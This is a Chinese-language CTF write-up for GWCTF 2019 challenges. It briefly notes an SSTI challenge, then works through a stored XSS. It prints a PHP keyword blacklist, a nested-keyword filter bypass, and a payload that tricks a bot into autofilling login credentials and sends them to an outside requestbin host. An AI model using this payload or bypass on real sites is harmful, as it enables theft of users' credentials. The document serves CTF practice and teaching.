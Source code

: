 # GWCTF 2019

## 你的名字

``{{1+1}}``报错提示了python后端

发现config被置空了

那么可以利用config来bypass if等东西


## mypassword

可以注册，登陆后有反馈界面 F12看到泄露了源码

```php
if(is_array($feedback)){
    echo "<script>alert('反馈不合法');</script>";
    return false;
}
$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
foreach ($blacklist as $val) {
    while(true){
        if(stripos($feedback,$val) !== false){
            $feedback = str_ireplace($val,"",$feedback);
        }else{
            break;
        }
    }
}
```

看起来可以交错绕过然后xss

poc
```html
<scriframeipt>alert('233');</scriframeipt>
```

但是开了CSRF,么法直接用xss平台上的pyload了，需要自己写一个xss

怎么利用呢......

之前登陆的时候有个js挺奇怪的

```javascript
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}//这里会把用户名和密码直接存到cookie里
}
```

那么bot的cookie里肯定有用户名密码，想办法写个js搞出来，但是又不能调用外部js，这里利用访问的二级域名来实现

最后发现bot还能自动填表单。。。


大概构造一个和登录界面一样的表单

```html
<input type="text" name="username">
<input type="password" name="password">
<script src="./js/login.js"></script>
<script>
    var user = document.getElementsByName("username")[0].value;
    var psw = document.getElementsByName("password")[0].value;
    document.location="http://http.requestbin.buuoj.cn/1e8jfct1/?a="+user+"?b="+psw;
</script>
```

然后交错bypass即可

```html
<incookieput type="text" name="username">
<incookieput type="password" name="password">
<scrcookieipt scookierc="./js/login.js"></scrcookieipt>
<scrcookieipt>
    var user = docucookiement.getcookieElementsByName("username")[0].value;
    var psw = docucookiement.getcookieElementsByName("password")[0].value;
    docucookiement.locacookietion="http://http.requestbin.buuoj.cn/swvl36sw/?a="+user+"?b="+psw;
</scrcookieipt>
```